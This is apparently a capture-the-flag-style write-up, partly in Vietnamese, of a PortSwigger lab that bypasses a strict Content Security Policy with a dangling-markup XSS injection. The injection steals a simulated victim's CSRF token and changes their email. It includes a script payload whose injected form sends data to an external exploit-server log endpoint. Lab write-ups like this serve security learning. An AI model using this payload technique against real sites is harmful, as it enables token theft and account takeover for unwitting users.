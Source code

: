 # Target Goal: 

This lab using a strict CSP that blocks outgoing requests to external web sites.

To solve the lab, first perform a cross-site scripting attack that bypasses the CSP and exfiltrates a simulated victim user's CSRF token using Burp Collaborator. You then need to change the simulated user's email address to hacker@evil-user.net.

You must label your vector with the word "Click" in order to induce the simulated user to click it. For example:

`<a href="">Click me</a>`

You can log in to your own account using the following credentials: `wiener:peter`

# Recon: 

Phần nhắm đến để tấn công sẽ là đổi email do đó từ mục nhập email, ta có thể inject vào và thử xem có thể thoát ra dc k

![image](https://github.com/vanniichan/Portswigger/assets/112863484/018f0ae1-3160-408f-b92f-9d18642a52f3)

![image](https://github.com/vanniichan/Portswigger/assets/112863484/c7e5527d-0cfd-4ce2-949d-532b1bce17b9)

Sau khi inject vào cta thấy được k thể xem được nội dung của link. Lý do như tiêu đề của bài lab. Nó đã được CSP bảo vệ

![image](https://github.com/vanniichan/Portswigger/assets/112863484/78aa0fb3-1ed8-4f6d-b540-3368f72dcb5e)

Vậy thì bypass CSP kiểu gì? Vì nó đã chặn xem nội dung của trang ngoài nên chúng ta k thể tiến hành tấn công tự động mà bắt buộc phải cần tương tác 
`<a href="https://google.com/dnkas">Click me</a>`

![image](https://github.com/vanniichan/Portswigger/assets/112863484/4b13d7cc-2a9b-4ea2-8bef-11576f981fdc)

Tiếp theo để lấy được nội dung, rằng ở đây chúng ta cần đó chính là csrf token thậm chí là nhiều hơn thế. Sử dụng [tag base target](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/base)

![image](https://github.com/vanniichan/Portswigger/assets/112863484/b4183055-b526-4f76-8d30-2921ff10a8f7)

Lý do k đóng " là bởi khi không đóng. Trình duyệt sẽ hiểu rằng nội dung của nó sẽ chưa kết thúc và sẽ tìm đến phần kết thúc khác ( ở đâu có thể hiểu được là phần đóng tag ở dưới). Đây chính là tấn công "dangling markup"

![image](https://github.com/vanniichan/Portswigger/assets/112863484/2a9056c8-15b3-4c81-ab1f-785a64d38042)

Từ trên ta có payload sau: Nếu chưa có thông tin gì (window.name) thì ta sẽ dùng `else` mục đích giải thích ở trên. Sau đó khi đã có thông tin nó sẽ gửi về request của `Burp collabor`. Vì browser của victim chạy bằng Chrome nên khôg thể dùng payload của solution. Tôi tìm được 1 payload khác ở [bài này](https://skullhat.github.io/posts/reflected-xss-protected-by-very-strict-csp-with-dangling-markup-attack/)

```
<script>
location='https://0ac900f803f0a62583a5a634009b002e.web-security-academy.net/my-account?email=%22%3E%3C/form%3E%3Cform%20class=%22login-form%22%20name=%22evil-form%22%20action=%22https://exploit-0ac8002403eba6ea8339a50d01ea00a2.exploit-server.net/log%22%20method=%22GET%22%3E%3Cbutton%20class=%22button%22%20type=%22submit%22%3E%20Click%20me%20%3C/button%3E';
</script>
```

![image](https://github.com/vanniichan/Portswigger/assets/112863484/5e964adb-28f6-469b-8dec-743b48a19691)

Sau khi lấy được csrf từ victim ta tiến hành thay đổi email. Tuy nhiên respond sẽ báo rằng invalid csrf token lý do là thực ra mình còn thiếu session của victim. Ta phải lừa victim 1 lần nữa :))

![image](https://github.com/vanniichan/Portswigger/assets/112863484/1e0a1f95-0c5e-4da2-b57a-c99a8d5a185f)

Gửi [Payload](https://github.com/vanniichan/Portswigger/blob/main/Cross-site%20scripting/Lab_29/Lab-29_payload.js) vào server và exploit và thành công

# Flag: 

![image](https://github.com/vanniichan/Portswigger/assets/112863484/d50aed6a-8ff4-4748-90f9-6fdf1826a44f)
